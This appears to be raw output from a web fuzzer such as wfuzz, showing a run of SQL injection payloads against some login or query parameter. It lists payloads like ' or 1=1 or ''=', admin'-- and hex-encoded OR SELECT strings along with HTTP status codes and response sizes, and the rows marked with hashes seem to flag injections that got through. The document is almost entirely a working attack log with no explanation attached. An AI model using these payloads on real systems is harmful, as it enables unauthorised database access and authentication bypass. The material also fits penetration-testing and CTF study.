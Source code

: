 ```bash
000000030:   500        0 L      54 W       362 Ch      "" or 0=0 #"                                                                                       
000000033:   500        0 L      52 W       362 Ch      "" or 1=1--"                                                                                       
000000001:   500        0 L      48 W       340 Ch      "'"                                                                                                
000000003:   500        0 L      48 W       339 Ch      "#"                                                                                                
000000028:   500        0 L      52 W       356 Ch      "or 0=0 --"                                                                                        
000000027:   500        0 L      54 W       364 Ch      "" or 0=0 --"                                                                                      
000000026:   500        0 L      54 W       360 Ch      "' or 0=0 --"                                                                                      
000000025:   200        0 L      62 W       495 Ch      "0 or 1=1"                 ################      **                                                
000000024:   500        0 L      50 W       356 Ch      "')%20or%20('x'='x"                                                                                
000000023:   500        0 L      50 W       362 Ch      ""%20or%20"x"="x"                                                                                  
000000022:   500        0 L      50 W       354 Ch      "'%20or%20'x'='x"                                                                                  
000000021:   200        0 L      1 W        2 Ch        "'%20or%20''='"            ################                                                        
000000020:   500        0 L      48 W       361 Ch      "<>"'%;)(&+"                                                                                       
000000019:   500        0 L      48 W       349 Ch      "admin'--"                                                                                         
000000018:   500        0 L      52 W       362 Ch      "'or%20select *"                                                                                   
000000017:   500        0 L      52 W       392 Ch      "\x27\x6F\x72 SELECT *"                                                                            
000000014:   500        0 L      50 W       366 Ch      "\x3D%20\x3B'"                                                                                     
000000016:   500        0 L      52 W       392 Ch      "\x27\x4F\x52 SELECT *"                                                                            
000000013:   500        0 L      48 W       350 Ch      "\x27"                                                                                             
000000012:   500        0 L      48 W       350 Ch      "\x23"                                                                                             
000000011:   500        0 L      50 W       346 Ch      "=%20--"                                                                                           
000000010:   500        0 L      49 W       342 Ch      "=%20;"                                                                                            
000000009:   500        0 L      50 W       344 Ch      "=%20'"                                                                                            
000000006:   500        0 L      50 W       346 Ch      "'%20--"                                                                                           
000000008:   500        0 L      49 W       342 Ch      "'%20;"                                                                                            
000000005:   500        0 L      48 W       340 Ch      "--"                                                                                               
000000002:   500        0 L      48 W       344 Ch      """       
000000040:   200        0 L      1 W        2 Ch        "" or 1=1 or ""=""                                                                                 
000000042:   500        0 L      50 W       362 Ch      "" or "a"="a"                                                                                      
000000039:   200        0 L      1 W        2 Ch        "' or 1=1 or ''='"                                                                                 
000000036:   500        0 L      50 W       354 Ch      "or 1=1--"                                                                                         
000000038:   500        0 L      52 W       356 Ch      "or%201=1 --"                                                                                      
```